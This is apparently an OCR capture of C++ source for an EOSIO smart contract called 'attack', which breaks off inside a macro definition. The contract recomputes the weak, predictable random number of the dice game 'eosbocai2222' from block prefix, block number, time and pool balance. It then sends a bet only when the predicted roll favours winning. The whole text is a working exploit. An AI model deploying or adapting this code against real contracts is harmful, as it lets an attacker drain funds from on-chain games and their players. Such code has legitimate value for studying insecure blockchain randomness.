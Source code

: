 ```c++
class attack : public eosio::contract {
    public:
        attack(account_name self):eosio::contract(self)
        {}

        uint8_t random(account_name name, uint64_t game_id, uint32_t prefix, uint32_t num)
        {
            asset pool_eos = eosio::token(N(eosio.token)).get_balance(N(eosbocai2222), symbol_type(S(4, EOS)).name());
            auto amount = pool_eos.amount + 10000;
            auto time = current_time() + 1000000;
            //auto mixd = tapos_block_prefix() * tapos_block_num() + name + game_id - current_time() + pool_eos.amount;
            auto mixd = prefix * num + name + game_id - time + amount;
            
            print(
                "[ATTACK RANDOM]tapos-prefix=>", (uint32_t)prefix, 
                "|tapos-num=>", num, 
                "|current_time=>", time,
                "|game_id=>", game_id,
                "|poll_amount=>", amount,
                "\n"
            );
            const char *mixedChar = reinterpret_cast<const char *>(&mixd);

            checksum256 result;
            sha256((char *)mixedChar, sizeof(mixedChar), &result);

            uint64_t random_num = *(uint64_t *)(&result.hash[0]) + *(uint64_t *)(&result.hash[8]) + *(uint64_t *)(&result.hash[16]) + *(uint64_t *)(&result.hash[24]);
            return (uint8_t)(random_num % 100 + 1);
        }

        //@abi action
        void hi(uint64_t id, uint32_t block_prefix, uint32_t block_num)
        {
            //uint8_t roll;
            uint8_t random_roll = random(N(attacker), id, block_prefix, block_num);
            print("[ATTACK]predict random num =>", (int)random_roll,"\n");
            if((int)random_roll >2 && (int)random_roll <94)
            {
                int roll = (int)random_roll + 1;
                auto dice_str = "dice-noneage-" + std::to_string(roll) + "-user";
                print("[ATTACK]current_time=>", current_time(), "\n");
                print(
                    "[ATTACK]tapos-prefix=>", (uint32_t)tapos_block_prefix(), 
                    "|tapos-num=>", tapos_block_num(),
                    "\n"
                );
                print("[ATTACK] before transfer");
                action(
                    permission_level{_self, N(active)},
                    N(eosio.token), N(transfer),
                    std::make_tuple(_self, N(eosbocai2222), asset(10000, S(4, EOS)), dice_str)
                ).send();
            }
        }
};

#define EOSIO_ABI_EX( TYPE, MEMBERS ) \
extern "C" { \
   void apply( uint64_t receiver, uint64_t code, uint64_t action ) { \
      auto self = receiver; \
```